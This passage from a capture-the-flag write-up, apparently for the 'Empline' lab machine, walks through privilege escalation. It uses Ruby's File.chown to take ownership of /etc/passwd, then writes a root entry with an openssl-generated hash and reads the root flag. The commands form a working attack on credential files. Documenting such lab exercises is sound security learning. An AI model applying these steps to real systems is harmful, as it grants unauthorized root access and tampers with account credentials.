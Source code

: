 ````commandline
george@empline:~$ /usr/local/bin/ruby -e 'system("chown george /etc/passwd" )'
chown: changing ownership of '/etc/passwd': Operation not permitted
````

Using the `system` function with `whoami` also returned unexpected information. Well no, not exactly, it returned `george`. But I wanted it return `root`. So this was the `PoC`, the Proof of Concept I was not on the good path.

Got a tip from a discord user (Thanks `Rushi`!) that we actually need to make use of the Ruby's `chown` function. Which actually make sense in this context. I Had to do more research, I confess. But you know, it's all about sharing knowledge, on Google, website or via your contacts :-) Anyway, I did my homework late like we say, and you can get more information in the [Ruby FileUtils](https://ruby-doc.org/stdlib-2.4.1/libdoc/fileutils/rdoc/FileUtils.html).

````commandline
george@empline:/$ id
uid=1002(george) gid=1002(george) groups=1002(george)
george@empline:~$ /usr/local/bin/ruby -e 'File.chown(1002,1002,"/etc/passwd")'
george@empline:~$ ls /etc/passwd
/etc/passwd
george@empline:~$ ls -lah /etc/passwd
-rw-r--r-- 1 george george 1.7K Jul 20 19:48 /etc/passwd
````

So, user `george` is owning the `/etc/passwd` file. Great!!

So let's generate a new password hash so that we can add this to the `/etc/passwd` for the root user. As we don't know the password of `root`, we will give him a new one the fancy way.

````commandline
george@empline:/$ openssl passwd mynewpass
Warning: truncating password to 8 characters
bUlQOIGbhxiis
````

Editing the `/etc/passwd` and adding this new password hash.

````commandline
root:bUlQOIGbhxiis:0:0:root:/root:/bin/bash
````

This seemed to work out as expected.

````commandline
george@empline:~$ su root
Password: 
root@empline:/home/george# cat /root/root.txt 
74*****d0556e9c6f22e6f54b*****d5
````

Mission accomplished!

Hopefully you enjoyed as much as I did :-)

## Other methods

There are other possible methods as there are some know CVE interesting to check out. I did not try them out as I could find my way to have full root access, including the `MySQL` database along the way.
